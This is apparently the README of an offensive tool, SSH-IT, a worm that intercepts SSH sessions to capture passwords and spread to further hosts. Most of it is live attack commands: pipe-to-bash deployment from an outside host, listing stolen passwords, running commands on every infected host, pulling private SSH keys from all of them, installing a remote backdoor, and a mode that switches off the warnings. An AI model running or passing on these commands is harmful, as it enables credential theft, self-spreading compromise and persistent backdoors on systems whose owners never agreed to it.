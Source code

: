 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:
```shell
~/.prng/thc_cli -r list
```
{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}


To uninstall use:
```shell
~/.prng/thc_cli -r uninstall
```

### ALPHA TESTING

This is PRE-RELEASE ALPHA STAGE for TESTING only.

Verbose mode (```THC_VERBOSE=1```) is enabled by default. The worm will stop after 2 hops (```THC_DEPTH=2```).

SETTINGS:
* ```THC_VERBOSE=1``` Display a warning when *ssh* is being intercepted (in bold red).
* ```THC_DEPTH=2``` The worm will not spread further than 2 hops away from the current host.
* ```THC_DEBUG=1``` Display debug information.
* ```THC_DEBUG_LOG=thc.log``` Output (most) debug information to ```thc.log```.

{:refdef: style="text-align: center;"}
![Verbose-Example](verbose-example.png)
{: refdef}

Take off all safety and run SSH-IT in release mode (*with no warnings*):
```shell
THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

### Tips & Tricks
SSH-IT is controlled with ```thc_cli```.
```
usage: thc_cli [-hr] [command]
    -h          This help
    -r          Recursive (for all hosts)
Command:
    list       - Show passwords
    exec <cmd> - Execute <cmd> on target [e.g. thc_cli -r exec "id; date"]
    clean      - Clean logfiles and state information
    disable    - Disable interception
    uninstall  - Clean, disable and completely remove
Example: thc_cli -r list
```

#### Remote Command Execution
Executing a command on _all_ hosts
```shell
~/.prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (```id_rsa```) from _all_ hosts:
```shell
~/.prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a [backdoor](https://www.gsocket.io/deploy) on _all_ hosts:
```shell
~/.prng/thc_cli -r exec 'bash -c "$(curl -fsSL gsocket.io/x)"'
```

#### When HTTPS is not available
Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):
```shell
# Without HTTPS 
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
chmod 755 ssh-it-deploy.sh && \
./ssh-it-deploy.sh
```

#### Help the team
Help us fix bugs and send us ```thc.log``` if a boo-boo happens:
```shell
THC_DEBUG=1 THC_DEBUG_LOG=thc.log ssh user@yourhost "id"
```

Special thanks to Gerald, BadAdvert1zer and DoctorWho for ideas and testing.

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


